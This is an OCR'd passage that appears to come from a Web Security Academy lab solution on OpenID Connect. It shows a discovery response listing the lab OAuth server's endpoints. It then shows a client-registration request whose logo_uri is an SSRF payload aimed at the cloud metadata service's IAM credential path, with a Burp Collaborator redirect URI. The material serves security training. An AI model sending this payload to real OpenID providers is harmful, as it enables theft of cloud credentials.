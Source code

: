 ```
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
HTTP/1.1 200 OK
X-Powered-By: Express
Vary: Origin
Content-Type: application/json; charset=utf-8
Date: Mon, 03 Oct 2022 12:12:12 GMT
Connection: close
Content-Length: 2435

{"authorization_endpoint":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/auth","claims_parameter_supported":false,"claims_supported":["sub","name","email","email_verified","sid","auth_time","iss"],"code_challenge_methods_supported":["S256"],"end_session_endpoint":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/session/end","grant_types_supported":["authorization_code","refresh_token"],"id_token_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"issuer":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net","jwks_uri":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/jwks","registration_endpoint":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/reg","response_modes_supported":["form_post","fragment","query"],"response_types_supported":["code"],"scopes_supported":["openid","offline_access","profile","email"],"subject_types_supported":["public"],"token_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"token_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"token_endpoint":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/token","request_object_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"request_parameter_supported":false,"request_uri_parameter_supported":true,"require_request_uri_registration":true,"userinfo_endpoint":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/me","userinfo_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"introspection_endpoint":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/token/introspection","introspection_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"introspection_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"revocation_endpoint":"https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/token/revocation","revocation_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"revocation_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"claim_types_supported":["normal"]}
```

```
POST /reg HTTP/1.1
Host: oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net
Content-Type: application/json
Accept: application/json
Content-Length: 176

{
"redirect_uris": [
"https://wrreh3gy42of510219na8my2ktqnec.burpcollaborator.net"],
"logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```
